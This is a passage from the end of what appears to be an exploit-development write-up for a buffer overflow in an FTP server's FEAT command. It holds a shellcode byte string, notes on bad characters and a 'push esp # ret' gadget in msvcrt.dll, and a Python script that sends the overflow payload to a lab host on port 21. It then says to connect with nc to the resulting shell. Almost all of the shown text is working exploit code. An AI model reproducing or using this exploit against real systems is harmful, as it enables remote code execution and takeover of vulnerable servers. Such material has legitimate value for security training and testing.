"\x64\xc6\xb4\x55\x9b\xe9\xc4\x7c\x58\xbd\x94\x16\x49\xbe\x7e"
"\xe6\x76\x6b\xea\xee\xd1\xc4\x09\x13\xa1\xb4\x8d\xbb\x4a\xdf"
"\x01\xe4\x6b\xe0\xcb\x8d\x04\x1d\xf4\xa4\x67\xa8\x12\xac\x97"
"\xfd\x8d\x58\x5a\xda\x05\xff\xa5\x08\x3e\x97\xee\x5a\xf9\x98"
"\xee\x48\xad\x0e\x65\x9f\x69\x2f\x7a\x8a\xd9\x38\xed\x40\x88"
"\x0b\x8f\x55\x81\xfb\x2c\xc7\x4e\xfb\x3b\xf4\xd8\xac\x6c\xca"
"\x10\x38\x81\x75\x8b\x5e\x58\xe3\xf4\xda\x87\xd0\xfb\xe3\x4a"
"\x6c\xd8\xf3\x92\x6d\x64\xa7\x4a\x38\x32\x11\x2d\x92\xf4\xcb"
"\xe7\x49\x5f\x9b\x7e\xa2\x60\xdd\x7e\xef\x16\x01\xce\x46\x6f"
"\x3e\xff\x0e\x67\x47\x1d\xaf\x88\x92\xa5\xdf\xc2\xbe\x8c\x77"
"\x8b\x2b\x8d\x15\x2c\x86\xd2\x23\xaf\x22\xab\xd7\xaf\x47\xae"
"\x9c\x77\xb4\xc2\x8d\x1d\xba\x71\xad\x37")
 
#----------------------------------------------------------------------------------#
# Badchars: \x00\x0A\x0D                                                           #
# 0x77c35459 : push esp #  ret  | msvcrt.dll                                       #
# shellcode at ESP => space 749-bytes                                              #
#----------------------------------------------------------------------------------#
 
buffer = "\x90"*20 + shellcode
evil = "A"*246 + "\x32\x31\xd9\x7d" + buffer
 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.80.128',21))
 
s.send('FEAT ' + evil + '\r\n')
 
s.close()
```

Restart the server, execute the exploit, and connect with nc — success!



### 3.4 End

NULL.

## IV. End

nonnno!
